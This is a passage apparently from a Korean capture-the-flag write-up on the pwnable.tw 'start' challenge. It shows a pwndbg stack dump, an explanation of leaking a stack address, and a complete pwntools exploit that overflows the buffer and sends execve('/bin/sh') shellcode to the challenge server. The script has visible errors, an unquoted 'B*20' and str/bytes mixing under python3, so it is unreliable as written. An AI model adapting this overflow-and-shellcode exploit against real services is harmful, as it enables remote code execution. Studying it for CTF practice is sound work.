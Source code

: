 ```
   0x804808f <_start+47>    int    0x80
───────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────
00:0000│ esp  0xffffd208 —▸ 0x8048087 (_start+39) ◂— mov    ecx, esp
01:0004│      0xffffd20c —▸ 0xffffd20a ◂— 0xd20a0804
02:0008│      0xffffd210 ◂— 0x1
03:000c│      0xffffd214 —▸ 0xffffd3c1 ◂— '/home/lucy/pwnable.tw/start/start'
04:0010│      0xffffd218 ◂— 0x0
05:0014│      0xffffd21c —▸ 0xffffd3e3 ◂— 'CLUTTER_IM_MODULE=xim'
06:0018│      0xffffd220 —▸ 0xffffd3f9 ◂— 0x435f534c ('LS_C')
07:001c│      0xffffd224 —▸ 0xffffd9e5 ◂— 'LESSCLOSE=/usr/bin/lesspipe %s %s'
─────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────
 ► f 0  804809c _start+60
────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
```
위에서 `ret`하면서 `0x8048087 <_start+39>    mov    ecx, esp`로 점프하면  
`esp`는 `0xffffd20c`가 됩니다.  
  
또한, 한 번 더 `write`함수를 호출할 때, 스택 주소를 `leak`할 수 있습니다.  
그 후에 `ecx` 변화없이 `read`함수를 호출하기 때문에 같은 위치에 쉘코드를 담은 입력 데이터를 입력할 수 있어요!  

  


Exploit Code
--
```
#!/usr/bin/python3

from pwn import *
r = remote("chall.pwnable.tw", 10000)
e = ELF("./start")

payload = "A"*20 + p32(0x8048087)
r.sendafter("CTF:", payload)
leak = r.recv()
stack_addr = u32(leak[0:4])
print("stack_addr @ " + hex(stack_addr))

payload2 = B*20
payload2 += p32(stack_addr + 0x14)
# shellcode
payload2 += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"

r.send(payload2)
r.interactive()
```

  
  